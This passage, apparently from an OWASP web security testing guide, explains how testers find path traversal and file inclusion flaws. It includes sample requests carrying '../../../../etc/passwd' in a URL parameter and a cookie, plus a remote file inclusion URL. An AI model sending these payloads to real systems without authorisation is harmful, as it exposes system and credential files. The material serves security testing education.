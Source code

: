 ### Black Box testing

#### Input Vectors Enumeration

In order to determine which part of the application is vulnerable to
input validation bypassing, the tester needs to enumerate all parts of
the application that accept content from the user. This also includes
HTTP GET and POST queries and common options like file uploads and HTML
forms.

Here are some examples of the checks to be performed at this stage:

  - Are there request parameters which could be used for file-related
    operations?
  - Are there unusual file extensions?
  - Are there interesting variable names?



    http://example.com/getUserProfile.jsp?item=ikki.html
    http://example.com/index.php?file=content
    http://example.com/main.cgi?home=index.htm

  - Is it possible to identify cookies used by the web application for
    the dynamic generation of pages or templates?



    Cookie: ID=d9ccd3f4f9f18cc1:TM=2166255468:LM=1162655568:S=3cFpqbJgMSSPKVMV:TEMPLATE=flower
    Cookie: USER=1826cc8f:PSTYLE=GreenDotRed



#### Testing Techniques

The next stage of testing is analyzing the input validation functions
present in the web application. Using the previous example, the dynamic
page called *getUserProfile.jsp* loads static information from a file
and shows the content to users. An attacker could insert the malicious
string "*../../../../etc/passwd*" to include the password hash file of a
Linux/UNIX system. Obviously, this kind of attack is possible only if
the validation checkpoint fails; according to the file system
privileges, the web application itself must be able to read the file.

To successfully test for this flaw, the tester needs to have knowledge
of the system being tested and the location of the files being
requested. There is no point requesting /etc/passwd from an IIS web
server.

    http://example.com/getUserProfile.jsp?item=../../../../etc/passwd

For the cookies example:

    Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd

It's also possible to include files and scripts located on external
website.

    http://example.com/index.php?file=http://www.owasp.org/malicioustxt
